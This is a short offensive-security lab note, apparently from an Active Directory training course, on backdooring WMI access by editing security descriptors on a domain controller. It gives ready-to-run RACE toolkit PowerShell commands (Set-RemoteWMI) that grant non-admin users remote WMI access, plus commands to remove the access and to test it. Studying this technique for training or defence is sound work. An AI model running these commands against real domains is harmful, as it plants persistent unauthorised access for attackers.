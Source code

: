 It's possible to modify Security Descriptors (security information like
Owner, primary group, DACL and SACL) of multiple remote access
methods (securable objects) to allow access to non-admin users.

Administrative privileges are required for this, however it is a very impactful backdoor mechanism

> [!NOTE] **NOTE**
> Security Descriptor Definition Language Format:
> `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
> 
> ACE for built-in administrators for WMI namespaces:
> `A;CI;CCDCLCSWRPWPRCWD;;;SID`
> 
> We're interested in simply changing the SID to a user we control

### RACE
ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit:

```powershell
. .\RACE-master\Race.ps1
```

On a local machine
```powershell
Set-RemoteWMI -SamAccountName student1 -Verbose
```

On a remote machine for user `student548` **without** explicit credentials
```powershell
Set-RemoteWMI -SamAccountName student548 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

Removing permissions
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

Test with `gwmi`
```powershell
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```